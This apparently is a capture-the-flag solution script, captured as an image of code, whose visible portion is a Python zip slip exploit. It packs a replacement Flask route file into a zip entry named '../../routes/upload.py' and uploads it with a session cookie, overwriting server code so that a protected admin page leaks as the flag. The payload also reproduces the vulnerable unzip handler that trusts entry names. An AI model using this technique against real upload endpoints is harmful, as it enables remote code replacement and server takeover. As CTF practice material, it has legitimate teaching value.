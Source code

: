 ```python
        upload_dir = app.config['UPLOAD_FOLDER'] + "/" + filename.rsplit('.', 1)[0]
        try:
            os.makedirs(upload_dir)
        except FileExistsError:
            flash('An extracted zip with this name already exists', 'danger')
            return redirect(url_for('upload'))

        with zipfile.ZipFile(file, "r") as zf:
            for f in zf.infolist():
                with open(os.path.join(upload_dir, f.filename), 'wb') as tf:
                    tf.write(zf.open(f.filename, 'r').read())
                 
        flash(f'Zip sucessfully unzipped. Download it by going to /upload/{filename.rsplit(".", 1)[0]}', 'success')
        return redirect(url_for('upload'))
    else:
        flag = open("./app/templates/admin.html").read()      # Change the normal return to render a string with 
        return render_template_string("{{flag}}", flag=flag)  # the contents of admin.html


@app.route('/upload/<dir>', methods=['GET'])
@login_required
def show_unzip(dir):
    path = app.config["UPLOAD_FOLDER"] + "/" + dir
    if os.path.isdir(path):
        files = os.listdir(path)
        return render_template('files.html', name=current_user.username, files=files)
    else:
        flash('That directory does not exist', 'danger')
        return redirect(url_for('upload'))

@app.route('/upload/<dir>/<name>', methods=['GET'])
@login_required
def serve_unzip(dir, name):
    path = f'{app.config["UPLOAD_FOLDER"]}/{dir}/{name}'
    if os.path.isfile(path):
        return send_from_directory(f'{app.config["UPLOAD_FOLDER"]}/{dir}', filename=name, as_attachment=True)
    else:
        flash('That file does not exist', 'danger')
        return redirect(url_for('upload'))
"""

fh = io.BytesIO()
with zipfile.ZipFile(fh, "a", zipfile.ZIP_DEFLATED, False) as zf:
    zf.writestr("../../routes/upload.py", payload)

r = requests.post(url=SERVER_ADDR + "/upload", files={"file": ('test.zip', fh.getvalue())}, cookies=cookie)
```
